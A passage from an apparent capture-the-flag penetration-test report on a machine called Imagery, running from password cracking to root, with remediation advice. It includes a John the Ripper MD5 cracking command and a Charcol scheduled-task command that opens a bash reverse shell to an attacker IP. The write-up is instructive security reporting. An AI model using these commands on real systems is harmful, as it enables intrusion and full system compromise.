

*Successful recovery of the password required to decrypt the encrypted backup archive.*

### 12. Credential Recovery

#### Objective

The objective of this phase was to determine whether the recovered application database contained credentials that could facilitate lateral movement within the target system.

#### Actions Performed

The recovered database was analysed to identify user accounts and stored password hashes.

Application source code analysis confirmed that user passwords were stored using unsalted MD5 hashing. The recovered hashes were therefore subjected to offline password recovery using a wordlist-based attack.

The recovered hashes were tested locally using a wordlist-based Raw-MD5 attack:

```bash
john --format=Raw-MD5 \
  --wordlist=/usr/share/wordlists/rockyou.txt \
  recovered_users_md5.txt
```

#### Results

The password associated with the **mark** account was successfully recovered.

This provided a valid set of operating system credentials and enabled lateral movement from the compromised web application account to an additional local user.

#### Security Impact

Weak password storage allowed valid operating system credentials to be recovered offline without interacting further with the target application.

#### Evidence

**Figure 20 – Mark Password Cracked**



*Successful offline recovery of the local user's password.*

---

**Supporting Artifact**

- [`db.json`](evidence/files/db.json)

### 13. Lateral Movement (mark)

#### Objective

The objective of this phase was to verify whether the recovered credentials provided access to additional user accounts and to continue post-exploitation activities under a more privileged security context.

#### Actions Performed

The recovered credentials were successfully used to authenticate as the **mark** user.

After obtaining access, the local environment was examined for elevated privileges, privileged executables, and additional privilege escalation opportunities.

The sudo policy for the compromised account was then reviewed:

```text
$ sudo -l

User mark may run the following commands on Imagery:
    (ALL) NOPASSWD: /usr/local/bin/charcol
```

#### Results

Authentication as **mark** was successful.

Enumeration of the user's sudo privileges revealed permission to execute a custom backup management utility without requiring a password.

This discovery became the primary privilege escalation vector.

#### Security Impact

Lateral movement provided access to a more privileged local user account and revealed a viable privilege escalation path.

#### Evidence

**Figure 21 – Mark Shell**



*Successful authentication as the local user **mark**.*

---

**Figure 22 – Sudo Privileges**



*Enumeration of the user's sudo privileges revealing unrestricted access to the Charcol utility.*

### 14. Privilege Escalation (Charcol)

#### Objective

The objective of this phase was to analyse the privileged **Charcol** utility and determine whether its functionality could be abused to obtain elevated system privileges.

#### Actions Performed

The utility's available commands and operational behaviour were examined.

Analysis revealed functionality capable of creating privileged scheduled tasks. By understanding the application's security model and authentication workflow, the privileged functionality was successfully abused to execute arbitrary commands with root privileges.

A root-owned scheduled task was created through the privileged Charcol interface to initiate a reverse shell:

```text
charcol> auto add \
  --schedule "* * * * *" \
  --command "/bin/bash -c '/bin/bash -i >& /dev/tcp/<ATTACKER_VPN_IP>/9001 0>&1'" \
  --name "root-shell"
```

#### Results

The custom **Charcol** utility introduced a privilege escalation path that allowed arbitrary command execution as the root user.

Successful exploitation resulted in complete administrative control of the operating system.

#### Security Impact

Abuse of the privileged Charcol utility resulted in unrestricted root-level command execution and complete operating system compromise.

#### Evidence

**Figure 23 – Charcol Initial Setup**



*Initial configuration of the privileged Charcol utility.*

---

**Figure 24 – Charcol Interactive Shell**



*Interactive access to the Charcol management interface.*

---

**Figure 25 – SUID Root Bash Created**



*Creation of a privileged SUID binary through the Charcol utility.*

---

**Figure 26 – Root Reverse Shell**



*Successful reverse shell received with root privileges.*

### 15. Root Access

#### Objective

The objective of the final phase was to verify successful privilege escalation and demonstrate complete compromise of the target system.

#### Actions Performed

Following successful privilege escalation, the effective user context was verified and unrestricted administrative access to the operating system was confirmed.

The final objective was achieved by accessing the protected root flag, demonstrating full system compromise.

The effective security context of the received shell was verified:

```text
# id
uid=0(root) gid=0(root) groups=0(root)
```

#### Results

Full root access was successfully obtained.

The complete attack chain progressed from external network reconnaissance to total compromise of the target operating system through the exploitation of multiple independently significant vulnerabilities.

#### Security Impact

Successful privilege escalation demonstrated complete compromise of the target environment and unrestricted administrative control over the operating system.

#### Evidence

**Figure 27 – Root Flag**



*Successful completion of the assessment with full administrative access to the target system.*

## Vulnerability Summary

| ID | Vulnerability | Severity | Impact |
|----|--------------|----------|--------|
| V-01 | Stored Cross-Site Scripting (Stored XSS) | High | Administrator session compromise |
| V-02 | Directory Traversal | High | Arbitrary file disclosure |
| V-03 | Source Code Disclosure | High | Exposure of application internals |
| V-04 | Operating System Command Injection | Critical | Remote Code Execution |
| V-05 | Weak Password Storage (MD5) | High | Offline credential recovery |
| V-06 | Sensitive Backup Exposure | High | Disclosure of historical application data |
| V-07 | Insecure Privileged Utility (Charcol) | Critical | Local Privilege Escalation to Root |

## Recommendations

The assessment identified multiple vulnerabilities that, when chained together, resulted in complete system compromise. The following remediation measures are recommended:

### Stored Cross-Site Scripting

- Validate and sanitise all user-controlled input.
- Apply context-aware output encoding.
- Deploy a restrictive Content Security Policy (CSP).

### Directory Traversal

- Restrict file access to approved directories.
- Canonicalise and validate all file paths.
- Reject traversal sequences before processing requests.

### Source Code Protection

- Prevent direct access to application source files.
- Store sensitive application resources outside the web root.
- Apply strict access controls to internal resources.

### Command Injection

- Avoid invoking operating system shells with user-controlled input.
- Replace shell execution with secure library functions where possible.
- Validate and whitelist all user-supplied parameters.

### Password Storage

- Replace MD5 with a modern password hashing algorithm such as Argon2id or bcrypt.
- Apply unique salts for every stored password.

### Backup Protection

- Encrypt backup archives using strong cryptographic algorithms.
- Store backup archives outside locations accessible to application users.
- Rotate backup encryption keys regularly.

### Privileged Utilities

- Review privileged application functionality.
- Apply the principle of least privilege.
- Remove unnecessary privileged operations from user-accessible applications.
- Perform regular security reviews of custom administrative tools.

The following recommendations are intended to mitigate the identified vulnerabilities and reduce the overall attack surface of the application and underlying operating system.

## Conclusion

The assessment demonstrated that the complete compromise of the target system was achieved through the exploitation of multiple independent vulnerabilities that could be chained together by an attacker.

The attack progressed from initial reconnaissance and web application assessment to authenticated access, source code disclosure, remote code execution, credential recovery, lateral movement, and finally local privilege escalation to the root account.

Although each vulnerability individually represented a significant security issue, their combination resulted in a complete compromise of the application and underlying operating system.

This assessment highlights the importance of defence-in-depth, secure software development practices, proper credential protection, and continuous security testing throughout the software lifecycle.

## Lessons Learned

This assessment demonstrates how multiple independently exploitable vulnerabilities can be chained together to achieve complete system compromise.

While several of the identified issues individually presented a significant security risk, the lack of defence-in-depth allowed each successful step to facilitate the next stage of the attack.

The assessment also highlights the importance of secure coding practices, proper credential protection, least-privilege principles, and continuous security testing throughout the software development lifecycle.

## Evidence

All supporting evidence referenced throughout this report is available in the `evidence/` directory.

- `evidence/screenshots/` contains screenshots documenting each phase of the assessment.
- `evidence/files/` contains supporting technical artifacts, including source code, HTTP requests, application data, and additional evidence referenced throughout the report.
